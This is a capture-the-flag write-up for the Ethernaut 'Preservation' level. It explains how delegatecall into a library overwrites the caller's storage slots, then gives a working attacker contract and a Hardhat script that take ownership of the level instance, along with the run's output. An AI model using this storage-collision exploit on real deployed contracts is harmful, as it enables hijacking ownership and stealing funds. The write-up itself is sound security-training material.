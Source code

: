 ```yaml
---
title: Ethernaut \#16 Preservation
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Preservation challenge writeup
---
```


## Preservation

### Challenge

This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.

The goal of this level is for you to claim ownership of the instance you are given.

Things that might help

* Look into Solidity's documentation on the `delegatecall` low level function, how it works, how it can be used to delegate operations to on-chain. libraries, and what implications it has on execution scope.
* Understanding what it means for `delegatecall` to be context-preserving.
* Understanding how storage variables are stored and accessed.
* Understanding how casting works between different data types.


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

### Background

In order to pass this challenge we need to understand that when we `delegatecall` a to some smart contract, the code is executing in the context of the current contract. So when the first slot is being overwritten, it is the first slot in the caller contract and not the callee contract.

### Attack

The `setFirstTime` and `setSecondTime` functions are not used safly here. In fact they are implemented completly wrong and will not function as intended. Normaly when any of the two is called, they will try to update the `storedTime` in there own contract which happens to be in the first slot in storage. However, since they are being `delegatecall`ed, they will actually run in the context of the caller, and hence overwrite the parents first slot in storage. This will result in updating the `timeZone1Library` address. Using this techinque we can make the address point to an attacker controlled contract.

Create a contract that implements a function with the same signature as the `setTime` function, more specifically the signature should be `setTime(uint256)`. This function should have the functionality to replace the third slot with whatever owner we want to set. Then we need to use the original `setTime` function to replace the first slot, which is in fact the address of the contract that is being called.

* Create a contract that:
  * will have a function with the signature `setTime(uint256)`
  * the function `setTime(uint256)` will replace replace the third slot with whatever the argument passed is 
* Call the `setFirstTime` or `setSecondTime` with the address of the attacker controlled contract
* Call the `setFirstTime` with the address of the new owner to be set

#### PreservationSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.4;

contract PreservationSolve {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;

    constructor() public {}

    function setTime(uint256 _owner) public {
        owner = address(_owner);
    }
}
```

#### preservation-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    preservationAddress = "0x06f5b34b422ee5E774b91C5908f0f60E080C4DFb";
    contract = await ethers.getContractAt("Preservation", preservationAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    PreservationSolve = await ethers.getContractFactory("PreservationSolve");
    preservationSolve = await PreservationSolve.deploy();
    await preservationSolve.deployed();

    console.log("Level address   : " + contract.address)
    console.log("Contract Owner  : " + await contract.owner())

    // call setFirstTime and overwrite the first slot in the caller contract
    tx = await contract.connect(account).setFirstTime(preservationSolve.address)
    receipt = await tx.wait()

    // call setFirstTime and overwrite the owner slot in the caller contract
    tx = await contract.connect(account).setFirstTime(account.address)
    receipt = await tx.wait()

    console.log("Contract Owner  : " + await contract.owner())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/preservation-solve.js --network rinkeby
Level address   : 0x06f5b34b422ee5E774b91C5908f0f60E080C4DFb
Contract Owner  : 0x97E982a15FbB1C28F6B8ee971BEc15C78b3d263F
Contract Owner  : 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
```

### Success Message

Next time, those friends will request an audit before depositing any money on a contract. Congrats!

Frequently, using proxy contracts is highly recommended to bring upgradeability features and reduce the deployment's gas cost. However, developers must be careful not to introduce storage collisions, as seen in this level.

Furthermore, iterating over operations that consume ETH can lead to issues if it is not handled correctly. Even if ETH is spent, `msg.value` will remain the same, so the developer must manually keep track of the actual remaining amount on each iteration. This can also lead to issues when using a multi-call pattern, as performing multiple `delegatecall`s to a function that looks safe on its own could lead to unwanted transfers of ETH, as `delegatecall`s keep the original `msg.value` sent to the contract.

Move on to the next level when you're ready!
